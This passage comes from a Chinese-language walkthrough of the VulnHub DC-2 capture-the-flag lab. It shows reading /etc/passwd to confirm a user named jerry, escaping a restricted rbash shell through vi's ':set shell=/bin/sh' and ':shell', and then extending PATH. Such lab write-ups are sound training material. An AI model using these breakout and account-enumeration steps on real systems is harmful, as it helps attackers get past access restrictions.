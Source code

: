 这里提示了之前爆破出的2个 web 用户,会不会 linux 也有这2个用户?查看 passwd 文件
```bash
less /etc/passwd
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC2/10.png)

可见 jerry 用户存在,那么下面就是 rbash 逃逸-->提权

---

# flag4

使用 vi 进行逃逸
```
vi

:set shell=/bin/sh
:shell
```

更改环境变量,把 `/bin/sh` 目录加进去,不然许多命令不好用
```bash
echo $PATH
export PATH=$PATH:/bin:/usr/bin
```

![](../../../../../../assets/img/Security/安全资源/靶机/VulnHub/DC/DC2/11.png)
